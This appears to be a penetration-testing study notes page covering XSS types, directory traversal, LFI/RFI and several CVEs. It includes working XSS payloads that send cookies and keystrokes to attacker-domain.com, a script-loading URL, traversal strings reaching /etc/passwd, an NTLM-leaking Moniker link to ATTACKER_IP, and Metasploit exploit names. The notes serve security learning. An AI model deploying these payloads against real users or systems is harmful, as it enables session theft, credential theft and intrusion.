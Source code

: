 # Penetration Testing Tips


## XSS Attacks

### Payload

#### Proof of Concept

```html
<script>alert('XSS')</script>
```

#### Session stealing

Steal the session ID in `document.cookie` and send it to an API owned by the attacker.  
The `btoa(str)` JS function (Binary to ASCII) encodes the cookie in Base64.

```html
<script>fetch('https://attacker-domain.com/steal?cookie=' + btoa(document.cookie))</script>
```

#### Key logger

Similar to session stealing, but instead of a cookie send each keystroke to an API owned by the attacker.

```html
<script>document.onkeypress = function(e) { 
    fetch('https://attacker-domain.com/log?key=' + btoa(e.key));
}</script>
```

### Reflected XSS

Reflected XSS is a XSS vulnerability where a webpage displays in its HTML a string from the HTTP request
(for ex an URL parameter) without validation.  
This can happen for an error page for example, taking the error message as a parameter.  

Reflected XSS can be exploited by passing a custom script in the URL :
```
http://vulnerable-website.com?param=<script src="https://attacker-domain.com/payload.js"></script>
```

### Stored XSS

Stored XSS is a XSS vulnerability where the payload is stored by the website in a database (for example in a blog comment).  
It gets displayed for every user checking the website, so reaches more users than reflected XSS.  
However it is easier to detect than reflected XSS, since the payload is stored in the database.
 

### Blind XSS

Blind XSS is a XSS vulnerability where the attacker can inject a payload that is executed, but cannot test it himself.  
This happens for example if we create a support request which body is not sanitized, and this body is used as-is
to create a ticket in a ticketing system (JIRA, FreshDesk...).  
In that case, the payload should report to an HTTP API when executed, to transmit the stolen info.

**XSS Hunter Express** can be used to perform Blind XSS attacks, it will capture cookies, URK, page content...


## Directory Traversal

A directory traversal exposes files from the web server by exploiting a query parameters containing a file name.  
We can use the **dot-dot-attack** to expose files outside the intended resource folder.

#### Bypass a suffix appended to the file name by the web-server

A **NULL-byte injection** can by-pass a mechanism appending a suffix to the file name (like forcing an extension).  
The NULL byte is represented by `%00` or `0x00`.  
For example if a parameter `file=EN` returns the file `EN.php`, we can use `file=../../../../etc/passwd%00` to ignore the appended `.php`  
This NULL-byte injection is fixed in PHP 5.3.4.

#### Bypass the replacement of ../ by an empty string

If the sanitization replaces `../` by an empty string, it usually does a single pass.  
We can trick it by passing `....//....//etc/passwd`, after sanitization it will become `../../etc/passwd`.

#### LFI / RFI (Local/Remote File Injection)

When the web server can only return local files, it is a LFI.  
If the web server queries the URL of the input file, it is a RFI.  
In case of a RFI, we can force the web server to execute a malicious PHP file from a server owned by the attacker.  
This results in a RCE vulnerability.


## Run a local webserver

Run a local web server on port 8000 delivering files in its execution folder : 
```commandline
python -m http.server
```


## Special IP addresses 

**169.254.169.254** : link-local address used by cloud providers (AWS, GCP...) to provide metadata on the running instance.


## Famous CVEs

### Moniker Link (CVE-2024-21413 - score 9.8)

Moniker Link is a vulnerability in Outlook announced by Microsoft on 13/02/2024.  
An attacker can send a specific type of hyperlink (called a Moniker link) by email that bypasses Outlook's security mechanism.  
When clicked, Outlook sends the user's NTLM credentials to the attacker.

Outlook can render emails in HTML, and parse hyperlinks like HTTP or HTTPS.  
It can also open URLs specifying specific applications, called Moniker Links.  
Outlook has a security mechanism called **Protected View** that shows a warning popup when such an application tries to open.  
Protected View opens emails containing attachments and hyperlinks in Read-Only mode, to block this type of actions.  

One type of Moniker link is to use the `file://` prefix to open a file.  
It can specify a file on a network share controlled by the attacker, like : `<a href="file://ATTACKER_IP/myfile">Click me</a>`  
This uses the SMB protocol that involves local credentials for authentication.  
Protected View is able to block such attempt to steal the credentials.  

This CVE consists in a way to bypass the Protected View so it does not perform this validation, by using a `!` character after the file name.  
This can be done with a Moniker Link like : `<a href="file://ATTACKER_IP/myfile!exploit">Click me</a>`  
The share does not even need to exist on the attacker device, SMB still sends the netNTMLv2 hash to the attacker.  

The attacker needs to have a service running on his machine listening to incoming SMB messages.  
For example, the Responder Python tool can be used to receive the message and display the hash : `responder -I <INTERFACE>`

Microsoft patched Outlook to resolve this vulnerability in February 2024.  
A YARA rule has been created to detect these attack attempts, helping in malware detection and analysis and threat hunting.  


### EternalBlue (CVE-2017-0144 - score 8.8)

EternalBlue is a Windows exploit created by the NSA.  
It exploits a vulnerability in the SMBv1 protocol, that allows the attacker to execute arbitrary code and gain access on the target's network.  

The NSA did not disclose this vulnerability for 5 years, and it was revealed by the Shadows Broker group after they hacked the NSA.  
EternalBlue was used in the WannaCry software in 2017 to spread itself across a network and infect more devices.  
It was patched by Microsoft and listed in Microsoft's security bulletin as **MS17-010**.  

EternalBlue can be trivially exploited in Metasploit with the `exploit/windows/smb/ms17_010_eternalblue` exploit.


### RCE on IceCast 2.0.1 for Windows (CVE-2004-1561 - score 7.5)

IceCast is an open-source streaming media server software that runs on Unix-like and Windows OS, created in 1999 and still maintained today.  
Versions 2.0.1 and earlier are vulnerable to a buffer overflow attack allowing the attacker to execute arbitrary code.  

The attack is performed by sending an HTTP request with a large number of headers.  
Sending 32 headers causes a write past the end of a pointer array.  
On Linux, it does not seem to overwrite anything crucial, but on Windows it overwrites the saved instruction pointer.  

This vulnerability can be exploited in Metasploit with the `exploit/windows/http/icecast_header` exploit.  
This can offer a Meterpreter terminal with the user running IceCast (we need another attack to escalate privilege if needed).